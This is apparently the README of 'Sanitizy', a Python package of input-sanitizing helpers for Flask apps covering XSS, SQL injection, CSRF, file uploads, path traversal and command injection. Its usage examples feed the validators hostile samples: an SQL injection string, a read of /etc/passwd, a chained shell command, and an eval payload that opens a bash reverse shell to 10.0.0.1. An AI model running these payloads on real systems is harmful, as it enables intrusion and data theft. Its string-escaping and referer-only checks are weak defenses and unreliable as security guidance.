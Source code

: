 # Sanitizy
This is a simple and very light weight python package to help securing python web applications in general especially Falsk apps since they lack security !!

# Usage:

<h3> XSS:</h3>
<h4> Escpae some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>XSS.escape('&lt;h1&gt;')# produces: '&#x26;lt;h1&#x26;gt;'  </pre></div>
<h4> Escpae all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_args(request)#produces a dict with escaped values  </pre></div>
<h4> Escpae all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> SQL-Injection:</h3>
<h4> Escpae some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>SQLI.escape("' or 1=1 or '")# produces: "\' or 1=1 or \'"  </pre></div>
<h4> Escpae all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_args(request)#produces a dict with escaped values </pre></div>
<h4> Escpae all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> CSRF:</h3>
<h4> Check if the request is coming from the application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate("http://www.google.com",["www.google.com","www.bing.com"])#takes the referer header value and a list of allowed domains, then returns 'True' if it's safe and 'False' if not  </pre></div>

<h4> Check if the request is coming from the Falsk application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate_flask(request)#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> File Upload:</h3>
<h4> Check if the file is safe or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.check_file(request.files['file'],allowed_extensions=['png','jpg','jpeg','gif','pdf'],allowed_mimetypes=["application/pdf","application/x-pdf","image/png","image/jpg","image/jpeg"])#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Save files securely:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.save_file(request.files['file'],path="uploads/")#it will returns the path to the uploaded file</pre></div>

<h3> Path Traversal:</h3>
<h4> Check if the file is safe to open/download or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">PATH_TRAVERSAL.check("../../../../../../etc/passwd")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> RCE (Remote Code/Command Execution):</h3>
<h4> Check value is safe to pass to a command or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.command("ls -a ;cat /etc/passwd ")#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Check value is safe to pass to an "eval" function or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.command("__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1")#returns 'True' if it's safe and 'False' if not  </pre></div>

